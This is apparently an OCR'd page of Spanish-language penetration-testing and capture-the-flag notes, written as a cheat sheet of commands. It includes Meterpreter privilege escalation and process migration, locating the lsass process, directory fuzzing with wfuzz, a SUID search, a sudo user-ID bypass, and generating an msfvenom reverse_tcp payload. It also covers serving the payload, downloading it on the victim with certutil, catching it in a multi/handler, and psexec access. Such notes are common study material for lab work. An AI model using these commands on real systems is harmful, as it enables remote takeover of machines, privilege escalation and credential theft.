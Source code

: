 getuid = server username
sysinfo =informacion del sistema (en metaslpoit dentro de windows informacion de meterpreter x86/x64)
ps -S explorer.exe = buscar el proceso explorer.exe
migrate PID = seleccionamos el proceso de explorer
getsystem = para elevar privilegios
net localgroup administrators = consultar usuario del grupo administradores
ps -S lsass.exe = localizar pid de proceso de autenticacion del sistema
getprivs = podemos ver los privilegios del usuario en orden de realizar una suplantacion de tokens
dir C:\\ flag /s = buscamos de forma recursiva en todo C: por el archivo flag
whoami priv > ver privilegios windows

wfuzz -u http://IP/direcotorios/FUZZ.extension -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -c --hc 404
steghide extract --sf archivo.jpg
file para ver de que tipo es un archivo


find / -perm -u=s -type f 2>/dev/null
exiftool para ver metadatos de una imagen
strings nos trae los datos del archivo
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ip LPORT=port -f exe > payload.exe
python -m SimpleHTTPServer 80
windows: certutil -urlcache -f http://LHOST/payload.exe > descarga  archivo en victima
msfc > use multihandler
	set payload windows/x64/meterpreter/reverse_tcp
		set LHOST
		set LPORT
Al ejecutar el payload en la victima obtenemos un meterpreter ss.
	meterpreter> search (para buscar el unattend.xml)

base64 -d archivo.txt > decode base64 linux

psexec.py USUARIO@IP > nos conectamos a una maquina windows si tiene smb
	tambien esta disponible el modulo en msfconsole

